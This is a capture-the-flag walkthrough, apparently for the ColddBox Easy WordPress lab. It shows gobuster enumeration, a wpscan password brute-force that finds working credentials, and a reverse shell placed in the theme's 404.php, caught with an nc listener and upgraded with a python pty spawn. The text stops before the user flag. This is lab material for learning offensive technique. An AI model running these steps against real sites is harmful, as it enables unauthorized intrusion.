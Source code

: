 ### gobuster

```
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/hidden               (Status: 301) [Size: 311] [--> http://10.10.32.43/hidden/]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.32.43/] 
/server-status        (Status: 403) [Size: 276]    
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.32.43/wp-admin/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.32.43/wp-content/]
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.32.43/wp-includes/]
/xmlrpc.php           (Status: 200) [Size: 42] 
```

Guess the CMS! lol lets check the hidden dir first

```
U-R-G-E-N-T
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip

```

Well...what can I say? sounds like bruteforce

Either `hydra` for "speed" or `wpscan` for simplicity (failure message for wordpress)

I chose wpscan this time

Tried Hugo and Philip but it didnt work so C0ldd

```
...
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                                                                                                                                              
Trying c0ldd / 7654321 Time: 00:03:13 <                                                                                                                                                            > (1225 / 14345617)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210

```

So let's GO! on admin dashboard we go for appearance editor

classic reverse shell in 404 page 

then visit 'http://10.10.196.224/wp-content/themes/twentyfifteen/404.php` to get access

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 46852
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:30:02 up 15 min,  0 users,  load average: 0.29, 0.87, 0.68
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ 

```
Try to get user flag
